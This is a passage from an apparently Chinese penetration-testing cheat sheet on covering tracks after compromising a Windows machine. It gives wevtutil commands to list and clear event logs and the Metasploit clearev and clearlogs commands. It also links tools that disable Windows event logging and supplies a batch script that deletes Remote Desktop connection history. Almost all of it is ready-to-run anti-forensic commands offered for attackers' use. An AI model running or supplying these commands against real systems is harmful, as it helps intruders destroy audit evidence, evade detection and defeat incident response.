 ## 痕迹清理
### [Windows日志清除](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87) 
获取日志分类列表：
```
wevtutil el >1.txt
```
获取单个日志类别的统计信息：
eg.

```
wevtutil gli "windows powershell"
```
回显：
```
creationTime: 2016-11-28T06:01:37.986Z
lastAccessTime: 2016-11-28T06:01:37.986Z
lastWriteTime: 2017-08-08T08:01:20.979Z
fileSize: 1118208
attributes: 32
numberOfLogRecords: 1228
oldestRecordNumber: 1
```
查看指定日志的具体内容：
```
wevtutil qe /f:text "windows powershell"
```
删除单个日志类别的所有信息：
```
wevtutil cl "windows powershell"
```
### 破坏Windows日志记录功能 
利用工具 
* [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m) 
* [Windwos-EventLog-Bypass](https://github.com/3gstudent/Windwos-EventLog-Bypass) 

### Metasploit 
```
run clearlogs 
```
```
clearev 
```
### 3389登陆记录清除 
```
@echo off
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
@del "%USERPROFILE%\My Documents\Default.rdp" /a
@exit
```
